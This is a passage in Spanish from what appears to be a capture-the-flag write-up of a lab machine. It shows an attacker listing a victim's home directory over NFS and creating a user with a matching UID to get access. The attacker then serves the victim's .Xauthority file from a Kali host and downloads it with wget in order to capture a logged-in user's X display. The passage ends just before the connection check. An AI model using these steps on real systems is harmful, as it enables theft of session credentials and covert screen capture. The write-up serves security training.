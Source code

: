 ```null
    39128      0 lrwxrwxrwx   1 root      root            9 Oct 21 13:07 ./.viminfo -> /dev/null
     5606      4 -rw-------   1 1001     1001         2475 Jan 12 06:21 ./.xsession-errors
    39117      4 drwxr-xr-x   2 1001     1001         4096 Oct 21 14:57 ./articulos
    39012      0 lrwxrwxrwx   1 root      root            9 Oct 20 13:24 ./.bash_history -> /dev/null
    39105      4 drwx------   3 1001     1001         4096 Oct 21 14:57 ./.gnupg
find: ‘./.gnupg’: Permission denied
    39207      4 -rw-------   1 1001     1001           57 Jan 12 06:21 ./.Xauthority
    39110      4 drwxr-xr-x   2 1001     1001         4096 Oct 21 14:57 ./Desktop
    39111      4 drwxr-xr-x   2 1001     1001         4096 Oct 21 14:57 ./Downloads
    39112      4 drwxr-xr-x   2 1001     1001         4096 Oct 21 14:57 ./Templates
```

Por tanto, hay que crear otro usuario para poder tener permisos

```null
useradd ross2 -u 1001
```

Entre esos ficheros, destaca Xauthority, ya que en caso de que haya usuarios conectados, es posible capturar la pantalla

Para comprobarlo:

```null
alex@squashed:/home/alex$ w
 15:06:33 up  8:45,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               06:21    8:45m 46.16s  0.06s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Ross está conectado y su display es :0

Para poder tener acceso al fichero como el usuario Alex, se puede tratar de crear una copia descargado el fichero como ese usuario

```null
ross2@kali:/mnt/ross$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.191 - - [12/Jan/2023 15:15:59] "GET /.Xauthority HTTP/1.1" 200 -

alex@squashed:/home/alex$ wget http://10.10.16.47/.Xauthority
--2023-01-12 15:15:57--  http://10.10.16.47/.Xauthority
Connecting to 10.10.16.47:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 57 [application/octet-stream]
Saving to: '.Xauthority.1'

.Xauthority.1                                        100%[===================================================================================================================>]      57  --.-KB/s    in 0.1s    

```

Para verificar la conexión:
